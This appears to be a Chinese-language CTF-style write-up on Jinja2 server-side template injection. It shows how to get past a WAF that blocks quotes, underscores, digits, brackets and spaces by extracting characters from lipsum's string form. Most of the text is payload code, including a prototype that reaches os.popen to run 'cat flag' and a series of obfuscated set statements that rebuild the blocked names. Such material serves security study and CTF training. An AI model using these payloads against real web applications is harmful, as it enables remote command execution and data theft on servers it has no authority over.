 ## 实例解析2——WAF过滤’，”,_，0-9,\,.,[],空格

注入`{{lipsum|string|list}}`，如果回显的列表里第9位是空格，第18位是下划线，就可以这样获取下划线：

```
{%set a=(lipsum|string|list)[18]%}{{a}}
```

由于中括号被过滤：

```
{%set a=lipsum|string|list|attr(‘__getitem__’)(18)%}{{a}}
```

又由于下划线被过滤，可以用'pop’代替 getitem

```
{%set a=(lipsum|string|list)|attr(‘pop’)(18)%}{{a}}
```

这个payload是绕过过滤得到的下划线‘_’

Payload原型

```
{{lipsum|attr("__globals__")|attr(“__getitem__”)("os")|attr("popen")("cat flag")|attr("read")()}}
```


绕过：

```
{%set nine=dict(aaaaaaaaa=a)|join|count%}

{%set eighteen=nine+nine%}

{%set pop=dict(pop=a)|join%}

{%set xhx=(lipsum|string|list)|attr(pop)(eighteen)%} #（获取下划线）

{%set kg=(lipsum|string|list)|attr(pop)(nine)%}  #（获取空格）

{%set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join%}

{%set getitem=(xhx,xhx,dict(getitem=a)|join,xhx,xhx)|join%}

{%set os=dict(os=a)|join%}

{%set popen=dict(popen=a)|join%}

{%set flag=(dict(cat=a)|join,kg,dict(flag=a)|join)|join%}

{{flag}}
```


